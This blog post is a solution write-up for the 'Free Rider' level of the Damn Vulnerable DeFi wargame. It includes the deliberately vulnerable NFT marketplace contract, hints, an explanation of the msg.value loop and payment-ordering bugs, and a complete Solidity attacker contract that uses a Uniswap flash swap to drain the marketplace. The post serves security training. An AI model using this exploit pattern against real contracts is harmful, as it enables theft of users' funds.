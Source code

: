 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 10: Free rider'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our tenth challenge is called 'free rider' and it comes with the following prompt:

```
A new marketplace of Damn Valuable NFTs has been released! There's been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

A buyer has shared with you a secret alpha: the marketplace is vulnerable and all tokens can be taken. Yet the buyer doesn't know how to do it. So it's offering a payout of 45 ETH for whoever is willing to take the NFTs out and send them their way.

You want to build some rep with this buyer, so you've agreed with the plan.

Sadly you only have 0.5 ETH in balance. If only there was a place where you could get free ETH, at least for an instant.
```

We need to find a way to borrow some ETH, use it to exploit the marketplace, and then pass over the NFTs to the buyer for our commission.

The contracts for this challenge are located in contracts/puppet-v2/. The contract source code can be found below:

<details>
<summary> FreeRiderNFTMarketplace.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableNFT.sol";

/**
 * @title FreeRiderNFTMarketplace
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FreeRiderNFTMarketplace is ReentrancyGuard {

    using Address for address payable;

    DamnValuableNFT public token;
    uint256 public amountOfOffers;

    // tokenId -> price
    mapping(uint256 => uint256) private offers;

    event NFTOffered(address indexed offerer, uint256 tokenId, uint256 price);
    event NFTBought(address indexed buyer, uint256 tokenId, uint256 price);
    
    constructor(uint8 amountToMint) payable {
        require(amountToMint < 256, "Cannot mint that many tokens");
        token = new DamnValuableNFT();

        for(uint8 i = 0; i < amountToMint; i++) {
            token.safeMint(msg.sender);
        }        
    }

    function offerMany(uint256[] calldata tokenIds, uint256[] calldata prices) external nonReentrant {
        require(tokenIds.length > 0 && tokenIds.length == prices.length);
        for (uint256 i = 0; i < tokenIds.length; i++) {
            _offerOne(tokenIds[i], prices[i]);
        }
    }

    function _offerOne(uint256 tokenId, uint256 price) private {
        require(price > 0, "Price must be greater than zero");

        require(
            msg.sender == token.ownerOf(tokenId),
            "Account offering must be the owner"
        );

        require(
            token.getApproved(tokenId) == address(this) ||
            token.isApprovedForAll(msg.sender, address(this)),
            "Account offering must have approved transfer"
        );

        offers[tokenId] = price;

        amountOfOffers++;

        emit NFTOffered(msg.sender, tokenId, price);
    }

    function buyMany(uint256[] calldata tokenIds) external payable nonReentrant {
        for (uint256 i = 0; i < tokenIds.length; i++) {
            _buyOne(tokenIds[i]);
        }
    }

    function _buyOne(uint256 tokenId) private {       
        uint256 priceToPay = offers[tokenId];
        require(priceToPay > 0, "Token is not being offered");

        require(msg.value >= priceToPay, "Amount paid is not enough");

        amountOfOffers--;

        // transfer from seller to buyer
        token.safeTransferFrom(token.ownerOf(tokenId), msg.sender, tokenId);

        // pay seller
        payable(token.ownerOf(tokenId)).sendValue(priceToPay);

        emit NFTBought(msg.sender, tokenId, priceToPay);
    }    

    receive() external payable {}
}
```
</div>
</details>

<details>
<summary> FreeRiderBuyer.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";

/**
 * @title FreeRiderBuyer
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FreeRiderBuyer is ReentrancyGuard, IERC721Receiver {

    using Address for address payable;
    address private immutable partner;
    IERC721 private immutable nft;
    uint256 private constant JOB_PAYOUT = 45 ether;
    uint256 private received;

    constructor(address _partner, address _nft) payable {
        require(msg.value == JOB_PAYOUT);
        partner = _partner;
        nft = IERC721(_nft);
        IERC721(_nft).setApprovalForAll(msg.sender, true);
    }

    // Read https://eips.ethereum.org/EIPS/eip-721 for more info on this function
    function onERC721Received(
        address,
        address,
        uint256 _tokenId,
        bytes memory
    ) 
        external
        override
        nonReentrant
        returns (bytes4) 
    {
        require(msg.sender == address(nft));
        require(tx.origin == partner);
        require(_tokenId >= 0 && _tokenId <= 5);
        require(nft.ownerOf(_tokenId) == address(this));
        
        received++;
        if(received == 6) {            
            payable(partner).sendValue(JOB_PAYOUT);
        }            

        return IERC721Receiver.onERC721Received.selector;
    }
}
```
</div>
</details>

The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
First things first, how can we exploit the marketplace? There are multiple things wrong with the buy functionality.
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
The first thing wrong with the buy functionality: it will send the proceeds not to the seller, but to the new owner of the NFT (hopefully you!).
</div>
</details>

<summary> Hint 3:</summary>
<br>
<div markdown="1">
The second thing wrong with the buy functionality: the callvalue (msg.value) persists for the entire duration of the transaction. By calling the `_buyOne()` function inside of a loop, we are passing in the same msg.value to it each time. In other words, for 15 ETH we can buy all of the NFTs.
</div>
</details>

<summary> Hint 4:</summary>
<br>
<div markdown="1">
Now we need to find a way to borrow 15 ETH.

Resource:
https://docs.uniswap.org/protocol/V2/guides/smart-contract-integration/using-flash-swaps
</div>
</details>

<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
Ok, so this one was a lot of fun! We can see that the only functionality offered in the marketplace is to either modify an offer or purchase an NFT. Since the offer modification function has access control protections, we can turn our attention to the buy functionality. The first big issue here is that the payment to the seller is actually not sent to the seller at all. It happens post NFT transfer, which means the owner of the NFT is now actually the purchaser. This is a huge bug, and this alone is enough to complete the level if we can borrow enough ETH to purchase the NFTS (because it will be sent right back!). But, we can do better. If we look closely, the msg.value check occurs within the `_buyOne()` function which is in turn called several times by the `buyMany()` function. This means that the callvalue or amount in msg.value will persist throughout the entire transaction. All NFTs for the price of one! With these two bugs, we can drain the contract and sell the NFTs to our buyer to pocket nearly 135 ETH total. 

The second thing we needed to figure out for this level was how we were going to receive a loan for the initial 15 ETH. When you look through the `free-rider-challenge.js` file, we see that there is a uniswap pair set up with WETH and DVT. Using this hint, we can see if a uniswap pair will allow us to borrow WETH (since we can unwrap it) for a flash loan. After a small bit of research, we can see that all swaps on uniswap pairs are actually flash swaps. In other words, by crafting our request in a particular way, we can absolutely borrow WETH and pay it back before the swap transaction finishes! With these two tidbits, we are able to make our exploit contract and beat the level.


</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const FreeRiderAttackerFactory = await ethers.getContractFactory('FreeRiderAttacker', deployer);
        this.fr_attack = await FreeRiderAttackerFactory.connect(attacker).deploy(
            this.uniswapPair.address, 
            this.weth.address, 
            this.marketplace.address, 
            this.nft.address, 
            this.buyerContract.address, 
            attacker.address
            );
        await this.fr_attack.attack();

    });
```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";


/*
 * @title FreeRiderAttacker.sol
 * @author securerodd
 */

interface IWethToken {
   function deposit() external payable;
   function withdraw(uint256) external payable;
   function transfer(address, uint256) external;
}

interface IFreeRiderMarketPlace {
    function buyMany(uint256[] calldata) external payable;
}

interface INFT {
    function safeTransferFrom(address,address,uint256) external;
}

interface IUniswapV2Pair {
    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) external;
}
contract FreeRiderAttacker {

    IWethToken public weth;
    IFreeRiderMarketPlace public market;
    IUniswapV2Pair public pair;
    INFT public nft;
    address buyer;
    address attacker;
    constructor(address _pair, address _weth, address _market, address _nft, address _buyer, address _attacker) {
        pair = IUniswapV2Pair(_pair);
        weth = IWethToken(_weth);
        market = IFreeRiderMarketPlace(_market);
        nft = INFT(_nft);
        buyer = _buyer;
        attacker = _attacker;
    }

    function attack() public payable{
        // make data > 0 in length to turn swap into flash swap
        bytes memory data = abi.encode("d");

        // flash swap ourselves 15 WETH
        pair.swap(15 ether,0,address(this),data);

    }

    function uniswapV2Call(address, uint, uint, bytes calldata) external {
        // Swap weth for ETH
        weth.withdraw(15 ether);

        // Calculate how much we have to payback for our flashloan
        uint256 amountToRepay = (uint256((15 ether * 1000)) / 997) + 1;

        // create 'dynamic' array of tokenIDs for our NFT purchase
        uint256[] memory tokens = new uint256[](6);
        tokens[0] = 0;
        tokens[1] = 1;
        tokens[2] = 2;
        tokens[3] = 3;
        tokens[4] = 4;
        tokens[5] = 5;

        // Use ETH to buy all of the NFTs
        market.buyMany{value: 15 ether}(tokens);

        // Sell all 6 NFTs to buyer and get the 45 ETH from buyer
        for (uint256 i = 0; i < 6;) {
            nft.safeTransferFrom(address(this), buyer, i);
            unchecked {++i;}
        }

        // swap ETH for weth
        weth.deposit{value: amountToRepay}();

        // pay back our flash swap
        weth.transfer(address(pair), amountToRepay);

        // transfer the spoils to our attacker
        payable(attacker).transfer(address(this).balance);

    }

    // required to receive safeTransferFrom from marketplace
    function onERC721Received(
        address,
        address,
        uint256,
        bytes memory
    ) 
        external pure
        returns (bytes4) 
    {
        return IERC721Receiver.onERC721Received.selector;
    }

    receive() external payable {}
}
```
</div>
</details>
